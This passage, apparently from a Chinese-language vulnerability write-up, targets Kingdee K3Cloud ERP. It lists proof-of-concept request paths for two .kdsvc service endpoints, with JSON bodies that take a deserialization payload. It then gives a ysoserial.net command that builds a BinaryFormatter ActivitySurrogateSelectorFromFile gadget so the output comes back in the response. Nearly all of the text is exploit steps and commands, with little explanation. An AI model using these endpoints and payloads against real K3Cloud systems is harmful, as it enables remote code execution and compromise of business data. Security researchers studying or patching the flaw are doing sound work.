 对应 poc：

```plain
/K3Cloud/Kingdee.BOS.ServiceFacade.ServicesStub.DevReportService.GetBillData.common.kdsvc

{"ap0":"1","ap1":"1","ap2":"payload","format":"3"}
```

[![](assets/1707953861-910dee03c336b15863bae850f31447ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206123731-70c8edca-c4a9-1.png)

对应 poc：

```plain
/K3Cloud/Kingdee.BOS.ServiceFacade.ServicesStub.BizTipsInfosService.SaveBizTipsInfos.common.kdsvc

{"ap0":"1","ap1":"payload","format":"3"}
```

最后使用工具：[https://github.com/pwntester/ysoserial.net](https://github.com/pwntester/ysoserial.net)，生成回显 poc

```plain
ysoserial.exe -c "ExploitClass.cs;System.Windows.Forms.dll;System.Web.dll;System.dll" -f BinaryFormatter -o base64 -g ActivitySurrogateSelectorFromFile
```

[![](assets/1707953861-65a77a0283895c7acfb989357bb96c02.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206123739-75af0ce8-c4a9-1.png)
